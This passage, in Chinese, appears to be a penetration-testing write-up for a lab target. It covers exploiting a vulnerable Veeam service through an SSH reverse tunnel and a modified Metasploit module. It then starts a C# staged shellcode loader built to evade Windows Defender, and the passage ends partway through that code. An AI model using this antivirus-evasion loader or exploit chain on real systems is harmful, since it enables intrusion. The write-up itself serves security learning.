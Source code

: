 查看进程

![在这里插入图片描述](https://img-blog.csdnimg.cn/806eca74ca5943b5a915fbb4fde84e4d.png)

百度了解了下veeam，wmic、get-service、accesschk都用不了

直接暴力枚举

![在这里插入图片描述](https://img-blog.csdnimg.cn/c4c736289a1f40638a2f9a1431af43d5.png)

查看版本

![在这里插入图片描述](https://img-blog.csdnimg.cn/d01e4293e1da4cdb806b7701ec54d3be.png)

看一眼nvd

![在这里插入图片描述](https://img-blog.csdnimg.cn/937fbb0f02c34027b5ca83b50f788b9a.png)

该版本存在漏洞，现在应该要进行端口转发出来看看

2805端口虽然开在了0.0.0.0，但攻击机无法访问到，我也尝试了frp、chisel、ssh反向连接，应该是因为防火墙或是其他的缘故，连接不到攻击机

使用plink借助ssh来进行ssh反向连接并进行远程端口转发

![在这里插入图片描述](https://img-blog.csdnimg.cn/bfa488be587c4aa7a26d8b11dbbd228d.png)

攻击机查看，没问题

![在这里插入图片描述](https://img-blog.csdnimg.cn/8facefa7b702412cb4b2bc0dea4195c1.png)

msf有exp

![在这里插入图片描述](https://img-blog.csdnimg.cn/9fb0f80d0f4448cb89ea342aa4863107.png)

由于WinDefender的存在，我们无法直接使用msf进行getshell

并且还需要对msf的exp进行修改，使用windows/x64/exec执行命令，这样不会被WinDefender察觉

![在这里插入图片描述](https://img-blog.csdnimg.cn/3ced0fd4f1914dfaa8c88c0597da5c0d.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/3e1d2e6f196f4d4e8c93afd359ae29ed.png)

## 免杀 - Bypass WinDefender

**现在虽然能够成功执行命令，但这是一次绝佳的免杀练习机会**

首先我们选择做一个简单的分阶段的shellcode加载器，基于C#

```csharp
using System;
using System.Runtime.InteropServices;
using System.Net;

class Program
{
    [DllImport("kernel32")]
    private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

    [DllImport("kernel32")]
    private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

    [DllImport("kernel32")]
    private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

    static void Main(string[] args)
    {
```